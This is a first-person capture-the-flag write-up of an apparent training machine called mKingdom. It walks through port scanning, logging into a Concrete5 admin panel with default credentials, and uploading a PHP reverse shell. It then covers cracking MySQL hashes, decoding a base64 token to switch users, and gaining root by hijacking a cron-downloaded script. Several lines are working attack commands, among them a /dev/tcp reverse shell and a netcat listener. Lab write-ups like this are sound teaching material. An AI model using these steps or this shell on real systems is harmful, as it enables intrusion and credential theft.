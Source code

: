 I started with an IP address of the target machine. My first step was to find out which ports were open and what services were running. I launched a scan with nmap using the -sC -sV flags to collect as much info as possible. The result showed that only one port was open—port 85, which was running Apache httpd 2.4.7 (Ubuntu). The HTTP title revealed a cheeky message: "OH N0! PWN3D 4G4IN", clearly a hint of a vulnerable machine.

I opened http://10.10.80.222:85 in the browser and saw a static page with a spooky image. That was my first clue that something might be hidden. I ran a directory brute-force using gobuster with a basic dirbuster wordlist. Eventually, I found an interesting path: /app.

At /app, there was another page with a "JUMP" button redirecting me to /app/castle — a blog-style site themed around the character Toad. Viewing the source code revealed that the site was running Concrete5 CMS version 8.5.2.

After searching for public exploits and finding nothing useful, I decided to try some default credentials on the login form. Surprisingly, the combination admin:password worked, and I gained access to the admin panel.

I immediately checked the file upload functionality. At first, only .txt and .xml files were allowed. I tested uploading different extensions using ffuf, but the real breakthrough was finding a setting that let me change the allowed file types. I added .php, generated a reverse shell using revshells.com, pointing it to my IP and port, and uploaded it.

I opened a listener in my terminal with nc -nvlp 9001. Then I navigated to the uploaded PHP file in the browser, and boom—I got a shell back to my machine!

After stabilizing the shell, I ran whoami and confirmed I was the www-data user. I looked into the /home directory and found two users: mario and toad. To go further, I needed their credentials.

I uploaded the LinEnum script to the server via /tmp using a Python HTTP server (python3 -m http.server) and downloaded it with wget on the target. Running LinEnum revealed that I could log in to MySQL as root with no password.

Inside the mKingdom database, I found the admin password hash — which turned out to just be password again. In the mysql database, I found a hash for the user toad. I cracked it using hashcat with mode 300 (MySQL) and rockyou.txt. It gave me the password, and I used su toad to switch users.

Still stuck, I ran LinEnum again—this time as toad. I discovered an environment variable in a .env file: PWD_TOKEN. It was base64 encoded. Once decoded, I got a new password, which worked for user mario. As mario, I could finally access user.txt and grab the first flag!

But I still needed root. After trying various approaches, I uploaded pspy64 to watch running processes. I noticed that every minute, a script named counter.sh was downloaded from a domain mkingdom.thm. That was my chance!

I edited /etc/hosts to point mkingdom.thm to my own IP. I hosted a fake counter.sh using Python's HTTP server on port 85. The script contained a simple reverse shell like sh -i >& /dev/tcp/10.10.202.107/9001 0>&1. I opened a listener with nc -nvlp 9001 and waited. One minute later—I got a shell. This time, as root.

I confirmed it with whoami, then navigated to /root and read the root.txt flag — mission complete.

Conclusion
This was a super fun and educational project. I went through the full chain: from enumeration and bypassing restrictions to privilege escalation and full system compromise. Some of the key takeaways:

Bypassing file upload restrictions via admin settings.

Harvesting and cracking password hashes using MySQL and hashcat.

Using environment variables to pivot to other users.

Watching background processes with pspy64 and exploiting scheduled tasks via DNS spoofing.
